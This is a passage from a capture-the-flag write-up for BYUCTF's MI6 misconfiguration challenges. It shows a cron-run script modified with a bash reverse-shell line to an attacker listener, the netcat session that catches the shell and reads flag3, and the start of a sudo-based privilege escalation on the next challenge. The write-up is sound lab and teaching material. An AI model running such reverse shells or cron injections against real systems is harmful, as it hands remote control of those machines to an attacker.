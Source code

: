 ````sql
#Doing so will protect us from being hacked
#Please do not change this file
ps -aux
bash -i >& /dev/tcp/192.168.1.39/1337 0>&1
```

Wait a bit and we got a shell as ```q``` in our netcat listener.

And we got the flag!

```bash
$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [192.168.1.39] from (UNKNOWN) [192.168.1.51] 47694
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
q@MI6:~$ ls
ls
flag3.txt

q@MI6:~$ cat flag3.txt
cat flag3.txt
byuctf{cronjobzz}
```

FLAG : **byuctf{cronjobzz}**

## Mi6configuration - 4<a name="Mi6-3"></a>

Value : **436pts**

Difficulty : **Medium**

Author : **Rikroot**

Description :

```
We recently acquired a computer at MI6 and it seems like they might have made some mistakes. Can you hack it using their misconfigurations and get all their important data? (Download the VM file and power it on. Find the IP address and start hacking!)

The password to decrypt the volume is the first name of the James Bond character "Q" (all lowercase).

_Note - there are 3 flags, flag2 does not exist_

Submit flag4 here.

[https://byu.app.box.com/s/kqlgq3h7t43jqm7k0q124a1eivkonqln](https://byu.app.box.com/s/kqlgq3h7t43jqm7k0q124a1eivkonqln)
```

### Solution

Looking at the agent ```q``` sudo permissions, we can see that he is allowed to run as any users the command ```/usr/bin/apt-get``` without specifying any passwords.

```
q@MI6:~$ sudo -l
sudo -l
Matching Defaults entries for q on MI6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
````